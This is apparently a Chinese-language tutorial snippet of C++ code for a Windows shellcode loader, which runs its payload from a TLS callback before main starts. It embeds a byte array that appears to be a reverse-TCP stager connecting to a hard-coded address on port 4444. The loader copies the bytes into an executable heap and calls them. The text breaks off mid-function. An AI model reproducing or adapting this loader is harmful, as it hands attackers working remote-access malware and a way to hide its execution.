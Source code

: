 

## 实现代码

这段代码的核心目的是在程序启动时，通过TLS回调函数来执行Shellcode，而不是在主函数中执行

```cpp
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE") 

//用于存放shellcode的数组
unsigned char shellcode[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48"
"\x8b\x72\x50\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88"
"\x48\x01\xd6\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
"\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
"\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x2f\x9b\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00"
"\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58"
"\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00"
"\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68"
"\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba"
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f"
"\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49"
"\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48"
"\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
"\xf0\xb5\xa2\x56\xff\xd5";


//TLS回调函数
VOID NTAPI TlsCallBack(PVOID DllHandle, DWORD dwReason, PVOID Reserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{	
		HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(shellcode), 0);

		char* buffer = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(shellcode));

		memcpy(buffer, shellcode, sizeof(shellcode));

		((void(*)(void)) buffer)();
```